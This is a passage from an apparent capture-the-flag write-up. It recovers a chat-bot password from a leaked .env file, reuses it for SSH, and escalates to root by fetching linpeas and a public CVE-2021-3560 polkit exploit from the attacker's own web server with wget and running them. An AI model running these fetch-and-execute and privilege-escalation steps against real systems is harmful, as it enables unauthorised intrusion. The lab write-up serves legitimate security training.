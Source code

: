 ```
 <!=====Contents of file ../hubot/.env=====>
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
<!=====End of file ../hubot/.env=====>
```

- Let's try to connect to ssh using the password we found.
- It works! We can grab the user flag

## Privesc

- Let`s have a look at ways to privesc using linpeas
  - `wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64`
  - `python3 -m http.server 80`
  - And then you can wget from the target, `chmod +x` and run it
- We see that there is a CVE-2021-3560 and PATH abuse that have a 95% privesc capacity  
![image](https://user-images.githubusercontent.com/96747355/162219912-20fb5920-1fd6-4636-914b-02346a7a6091.png)  
![image](https://user-images.githubusercontent.com/96747355/162215494-04c868f9-8adc-4a88-ae21-5a7f9c80b52c.png)  
- Let's first try with the CVE and get this [exploit](https://raw.githubusercontent.com/Almorabea/Polkit-exploit/main/CVE-2021-3560.py) in our kali 
- Let's get it on our target `wget http://10.10.16.4/CVE-2021-3560.py`
- Let's use it `python3 CVE-2021-3560.py` we can see from the output of the script that a new user has been created so we basically just have to type `su ahmed` and then `sudo su`
- It works! We are root we can now `cat /root/root.txt`
